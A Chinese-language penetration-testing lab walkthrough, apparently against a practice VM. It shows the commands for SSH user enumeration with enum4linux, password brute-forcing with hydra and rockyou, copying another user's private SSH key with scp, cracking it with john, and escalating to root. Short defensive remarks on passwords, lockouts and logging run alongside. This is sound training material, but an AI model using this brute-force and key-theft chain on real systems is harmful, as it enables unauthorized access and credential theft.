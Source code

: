 透過先前使用的掃描結果(information collecting-scan)可以得知port80以及port22都有開放
要注意 但port80(http)本身叫難藏就算換port 只要有對外連線的服務都還事會被發現
port 22 是ssh用來遠端連線 就可以藏例如換成port2222

首先就針對port22做攻擊演示
由於是遠端連線我們並不知道帳號所以我們要先找到可以用來登入的帳號
使用enum4linux 192.168.213.129(目標IP)
![13](https://user-images.githubusercontent.com/49279418/117274124-57b57c00-ae8f-11eb-9bbd-5264248dd539.png)

可以看到有找到兩個使用者kay 跟 jan 從前面的UID來看一個是1000一個是1001看起來1001是後面新增的使用者權限上可能較小
被保護的嚴密性應該也較低 所以把這個帳號(jan)當做目標

接著就來準備暴力破密 使用的字典檔是內建的rockyou
(這邊就有可以防範的點 1.不要使用字典檔可能有的密碼 2.提高密碼強度ex:13碼以上 有大小寫及特殊字符 3.不允許多次失敗ex:3次以上就鎖)
鎖次數的部分還是有可能透過拉長時間的方式 如:一天就試兩次 所以還是要做好log的確認檢查是否有異狀

使用hydra -l jan -P /usr/share/wordlists/rockyou.txt(使用的字典檔) 192.168.213.129(目標IP) ssh(登入方式 有ssh telnet等)
![14](https://user-images.githubusercontent.com/49279418/117276940-f5aa4600-ae91-11eb-9f3e-78ee68c3a023.png)

使用ssh的方式登入 並試著提權(取得權限的垂直提權) 但此帳號沒有提權的能力(這部分屬於管理面iso27001的存取控管 也是最重要的一部分)
![15](https://user-images.githubusercontent.com/49279418/117277785-bd573780-ae92-11eb-860f-994e3863bf4b.png)
所以只好去找之前有看到的另一個帳號kay的相關資訊(取得權限的水平擴散) 不斷探索過後可以找到存取ssh認證的檔案
![16](https://user-images.githubusercontent.com/49279418/117278941-cac0f180-ae93-11eb-9ab0-349c99a5a175.png)

使用scp jan@192.168.213.129:/home/kay/.ssh/id_rsa /root/Desktop 把此檔案複製到本機端 
並使用python ssh2john.py id_rsa > /root/Desktop/id_rsa.hash 破密得到內容
![17](https://user-images.githubusercontent.com/49279418/117301824-9a864c80-aead-11eb-8f12-5ae85c76e1cd.png)

最後使用john --wordlist=/usr/share/wordlists/rockyou.txt --format=SSH id_rsa.hash 破密使得我們可以透過憑證登入
![18](https://user-images.githubusercontent.com/49279418/117301919-b0940d00-aead-11eb-81f6-a28d9c6e10be.png)

登入後去內部查看真正的密碼並使用sudo su提權 成功得到root 權限
![19](https://user-images.githubusercontent.com/49279418/117302479-42037f00-aeae-11eb-8e58-d2cc3defc954.png)





